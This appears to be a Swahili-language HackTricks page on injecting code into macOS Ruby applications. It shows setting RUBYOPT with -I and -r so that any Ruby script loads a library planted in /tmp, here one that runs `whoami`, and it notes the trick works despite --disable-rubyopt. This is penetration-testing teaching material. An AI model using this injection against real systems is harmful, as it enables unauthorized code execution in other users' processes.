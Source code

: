 # macOS Ruby Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## RUBYOPT

Kwa kutumia hii env variable inawezekana **kuongeza params mpya** kwa **ruby** kila wakati inatekelezwa. Ingawa param **`-e`** haiwezi kutumika kubaini msimbo wa ruby wa kutekeleza, inawezekana kutumia params **`-I`** na **`-r`** kuongeza folda mpya kwenye maktaba za kupakia na kisha **kubaini maktaba ya kupakia**.

Unda maktaba **`inject.rb`** katika **`/tmp`**:
```ruby:inject.rb
puts `whoami`
```
Tengeneza popote script ya ruby kama:
```ruby:hello.rb
puts 'Hello, World!'
```
Kisha fanya script ya ruby isiyo na mpangilio iipakue na:
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb
```
Fahamu ya kufurahisha, inafanya kazi hata na param **`--disable-rubyopt`**:
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb --disable-rubyopt
```
{{#include ../../../banners/hacktricks-training.md}}

